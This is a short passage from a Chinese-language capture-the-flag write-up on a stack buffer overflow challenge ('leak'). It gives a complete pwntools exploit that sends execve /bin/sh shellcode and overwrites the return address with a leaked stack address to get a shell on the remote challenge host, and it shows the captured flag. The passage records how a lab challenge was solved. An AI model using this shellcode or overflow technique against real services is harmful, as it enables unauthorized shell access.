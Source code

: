 如图则表示代理搭建成功👇

![](./images/image-131.png)

最后将poc.py修改为远程连接即可

```
from pwn import *

#io = process('./leak')
io = remote("192.168.122.100",13145)

io.recvuntil(b"Oops, I'm leaking! ")
leak_addr=int(io.recvuntil(b'\n'),16)
shellcode = b"\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

io.recvuntil(b"> ")

io.sendline(shellcode+(72-len(shellcode))*b'a' +p64(leak_addr))

io.interactive()
```

最后代理执行拿到flag

```
JET{0v3rfL0w_f0r_73h_lulz}
```
